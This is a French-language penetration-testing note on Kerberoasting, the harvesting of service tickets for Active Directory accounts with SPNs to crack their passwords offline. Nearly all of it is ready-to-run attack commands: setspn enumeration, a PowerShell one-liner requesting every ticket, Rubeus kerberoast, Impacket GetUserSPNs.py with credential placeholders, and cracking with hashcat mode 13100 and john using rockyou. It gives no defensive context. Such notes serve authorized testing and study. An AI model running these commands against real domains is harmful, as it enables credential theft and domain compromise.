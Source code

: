 ```yaml
---
public: true # set to true to make the article publishable
---
```

## Sources

- https://dl.packetstormsecurity.net/papers/general/kerberoasting.pdf

## Objectifs
- Obtenir une liste de compte utilisateurs disposant d'un SPN
- Collecter les TGS associés à ces SPNs (chiffrés en RC4)
- Tenter de cracker les mots de passe des comptes utilisateurs à partir des TGS récupérés (qui sont chiffrés avec les hash de comptes utilisateurs respectifs)

## Méthodologie
### Locale

#### Manuelle

##### Récupérer un TGS

###### Liste des comptes avec leurs SPNs
```shell
# Enumérer tous les SPNs
setspn.exe -q */*
```

```powershell
# Demander un TGS pour le SPN désiré (compte utilisateur)
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MyUSERWithSPN/srvtest.domain.local"
```


```powershell
# Demander tous les TGS possibles
Add-Type -AssemblyName System.IdentityModel
setspn.exe -T DOMAIN.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```



#### Utiliser Rubeus.exe

Il réalise les opérations suivantes :
- découverte des SPNs
- Dump des TGS
- Obtention des Hashs
- 
./Rubeus.exe kerberoast /outfile:hash.txt


#### Cracker les hash :

hashcat -m 13100 --force -a 0 hash.txt dict.txt

### Distante

#### Impacket

##### Utiliser GetUserSPNs.py
 Il réalise les opérations suivantes :
- découverte des SPNs
- Dump des TGS
- Obtention des Hashs

```
# Liste des comptes disposant d'un SPN
GetUserSPNs.py -dc-ip $TARGET_IP $AD_DOMAIN/$AD_USER:$AD_PASSWORD

# Récupération des TGS
GetUserSPNs.py -dc-ip $TARGET_IP $AD_DOMAIN/$AD_USER:$AD_PASSWORD -request

# Récupération d'un unique TGS
GetUserSPNs.py -dc-ip $TARGET_IP $AD_DOMAIN/$AD_USER:$AD_PASSWORD -request-user interesting.user

# Enregistrement des TGS pour les fournier à john / hashcat (fichier 'hashes.txt')
GetUserSPNs.py -dc-ip $TARGET_IP $AD_DOMAIN/$AD_USER:$AD_PASSWORD -request -outputfile hashes.txt
```

##### Cracker les hash (bruteforce)

```
john --wordlist=/path/to/rockyou.txt hashes.txt
```
[[_Techniques/Mots de passe/Casser un mot de passe/Hashcat]]
